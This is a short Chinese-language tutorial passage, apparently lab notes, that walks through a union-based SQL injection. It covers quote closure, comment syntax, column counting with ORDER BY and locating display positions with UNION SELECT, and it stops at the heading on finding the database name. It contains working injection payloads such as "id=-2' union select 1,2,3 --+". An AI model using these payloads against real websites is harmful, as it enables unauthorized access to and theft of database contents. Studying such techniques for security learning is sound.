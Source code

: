 所以知道了闭合方式是’闭合

数据库注释符：

```
--

/* */

#
```

\+ 在get请求里相当于空格

+一般配合 – 作为数据库get请求的注释符使用

```
select username,password from tablex where id=' 2' --+ ' limit 0,1
```

执行的时候会变成

```
select username,password from tablex where id=' 2'
```

输入‘2’查询正常，说明使用‘’ 进行闭合的

## 确定有多少个栏目

id=2’ order by [数字] –+

id=2’ order by 3 –+ 显示正常，order by 4显示不正常，

说明它数据库select后面只有三个东西

```
select id,username,password from tablex where id=' 2' order by 10 --+
```

发现order by 3正常

说明他数据库里有3个栏目

## 显示报错位

```
select id,username,password from tablex where id=' -2' union select 1,2,3 --+ ' limit 0,1
```

id = 1 正确的查询数据会覆盖掉 union select 因我们需要输入错误的id 使得数据库懵逼

```
id=-2' union select 1,2,3 --+
```

发现报错位是2,3

## 查看数据库的库名
